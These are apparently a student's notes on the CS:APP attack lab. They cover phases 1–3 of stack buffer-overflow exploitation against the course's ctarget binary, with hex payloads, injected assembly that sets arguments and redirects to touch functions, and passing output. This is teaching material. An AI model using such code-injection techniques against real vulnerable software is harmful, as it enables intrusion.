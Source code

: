 # Draft for attack lab

## How to submit? 
``` shell
./hex2raw < ans_i.txt > pi.txt
./ctarget -i pi.txt -q 
```
## Rules 
Everything written in as bytes are from lower address to higher. (one byte by one byte)
The program takes in command -> point to next cmd in bigger address (going upwards in virtual stack. )


## Phase 1
Ans: write ret address by reserved buffer zone:


1. check where is touch1 file -> 0x4017c0
``` shell 
disas touch1 
```

2. create a hex file. 
```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
c0 17 40 00 00 00 00 00 
```
that is -- putting 0x4017c0 in stack address so that the getbuf will jump back towards touch1. 

3. turn hexfile into 2 binary file. 
```shell 
./hex2raw ans_1.txt > p1.txt
./ctarget -i p1.txt -q 
```

4. And it passed. 
``` shell 
root@Flappy:~/csapp/target1# ./run.sh 
./run.sh: line 2: ans_1txt: No such file or directory
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00  
```

## Phase 2
This phase requires you to send a new argument to new function (touch2). 
The whole process: 
1. test
2. getbuf(): puts code in %rsp location | and puts %rip -> %rsp 
3. finish getbuf -> jump to set argument code (which is at %rsp) 
4. jump to touch2

**How to make it?** 
1. write code file and turn it into binary 
code.s ->
```shell    
movq <cookie value>, %rdi # set first arg
pushq <address of touch2>
retq

# then binary 
gcc -c code.s 
objdump -d code.o > code.d 
```

2. write into buffer zone
```shell 
<write into the code binary> 
multiple zeros (after 40 bytes)
<address of %rsp> (get from debugging tools -> address of %rsp) 
```

3. passed :
``` shell 
root@Flappy:~/csapp/target1# ./run.sh 
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 
```


## Phase 3 
This phase requires sending cookie to touch func as well but call another function to make it pass:
```c 
void touch3(char *sval)
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}

/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
```
Pass requirement:
1. Make byte representation of "cookie" into address of test, since getbuf may be modified when hexmatch's random function is called and covered the string. 
2. redirected the code just as we did in phase 2.

**How do we do it.**:
1. find correspondence: cookie = 0x59b997fa = 35 39 62 39 39 37 66 61 
2. write argument code:
``` asm
movq $0x5561dca8, %rdi // adddress of stored cookies -> "0x59b997fa"
pushq <touch3 address>
retq 
```
3. write injection code .
```txt
48 c7 c7 a8 dc 61 55 68 
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 // These bytes may be modfied by hexmatch. 
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```

4. passed. 